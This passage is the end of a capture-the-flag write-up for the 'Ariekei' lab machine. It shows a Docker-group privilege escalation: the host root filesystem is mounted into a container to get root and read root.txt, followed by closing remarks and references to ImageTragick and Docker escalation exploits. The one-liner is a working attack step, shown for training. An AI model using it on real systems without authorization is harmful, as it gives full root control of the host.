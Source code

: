 ```bash
spanishdancer@ariekei:/$ docker run -v /:/rootfs -i -t bash
bash-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-4.4# cd /rootfs/root/
bash-4.4# ls
root.txt
```

And there we have it, full control of the filesystem with root privileges.  Docker group privilege escalation in a one-liner.  I hope you enjoyed this write-up, and I hope you give the box a try if you haven't already. 
 @rotarydrone should be applauded for a fantastic box and journey through docker.


References
----------------
https://imagetragick.com/
https://github.com/ImageTragick/PoCs
https://www.exploit-db.com/exploits/34900/
https://fosterelli.co/privilege-escalation-via-docker.html
